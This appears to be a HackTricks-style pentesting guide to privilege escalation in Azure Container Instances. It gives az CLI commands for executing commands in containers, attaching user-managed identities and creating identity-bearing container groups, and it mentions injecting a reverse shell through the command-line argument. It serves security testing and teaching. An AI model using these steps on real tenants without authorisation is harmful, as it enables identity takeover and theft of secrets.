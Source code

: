 # Az - Azure Container Instances Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Container Instances

Fore more information check:

{{#ref}}
../az-services/az-container-instances.md
{{#endref}}

### `Microsoft.ContainerInstance/containerGroups/read`, `Microsoft.ContainerInstance/containerGroups/containers/exec/action`

These permissions allow the user to **execute a command** in a running container. This can be used to **escalate privileges** in the container if it has any managed identity attached. Ofc, it's also possible to access the source code and any other sentitive information storeed inside the container.

To execute a `ls` and get the output is as simple as:

```bash
az container exec --name <container-name> --resource-group <res-group>  --exec-command 'ls'
```

It's also possible to **read the output** of the container with:

```bash
az container attach --name <container-name> --resource-group <res-group>
```

Or get the logs with:

```bash
az container logs --name <container-name> --resource-group <res-group>
```

### `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permissions allows to **attach a user managed identity** to a container group. This is very useful to escalate privileges in the container.

To attach a user managed identity to a container group:

```bash
az rest \
  --method PATCH \
  --url "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ContainerInstance/containerGroups/<container-name>?api-version=2021-09-01" \
  --body '{
    "identity": {
      "type": "UserAssigned",
      "userAssignedIdentities": {
        "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>": {}
      }
    }
  }' \
  --headers "Content-Type=application/json"
```

### `Microsoft.Resources/subscriptions/resourcegroups/read`, `Microsoft.ContainerInstance/containerGroups/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

These permission allows to **create or update a container group** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
az container create \
  --resource-group <res-group>> \
  --name nginx2 \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --assign-identity "/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<user-namaged-identity-name>" \
  --restart-policy OnFailure \
  --os-type Linux \
  --cpu 1 \
  --memory 1.0
```

Moreover, it's also possible to update an existing container group adding for example the **`--command-line` argument** with a reverse shell.

{{#include ../../../banners/hacktricks-training.md}}


